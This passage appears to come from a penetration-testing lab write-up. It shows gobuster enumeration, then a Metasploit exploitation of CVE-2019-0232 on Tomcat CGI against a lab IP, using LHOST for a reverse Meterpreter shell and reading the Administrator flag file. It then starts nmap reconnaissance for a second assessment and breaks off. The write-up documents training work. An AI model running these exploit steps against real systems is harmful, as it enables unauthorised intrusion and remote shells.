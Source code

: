     ```sh
    gobuster dir -u http://10.129.201.89:8080/cgi -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x bat
    # we get cmd.bat
    ```
  
  * We can try exploiting CVE-2019-0232 now:

    ```sh
    msfconsole -q

    search CVE-2019-0232

    use 0
    # exploit/windows/http/tomcat_cgi_cmdlineargs

    options

    set RHOSTS 10.129.201.89

    set TARGETURI /cgi/cmd.bat

    set LHOST 10.10.117.16

    run
    # we need to set force run exploit

    set ForceExploit true

    run

    # this gives us meterpreter shell

    shell

    type C:\Users\Administrator\Desktop\flag.txt
    ```

* Skills Assessment II:

  * We have been given a vhost 'gitlab.inlanefreight.local' along with the server:

    ```sh
    sudo vim /etc/hosts
    # map vhost to ip

    nmap -T4 -p- -A -Pn -v 10.129.201.90
    ```
  
  * We have a webpage on port 80 - the source code for this page mentions a page  at <http://blog.inlanefreight.local> - need to map this in ```/etc/hosts```
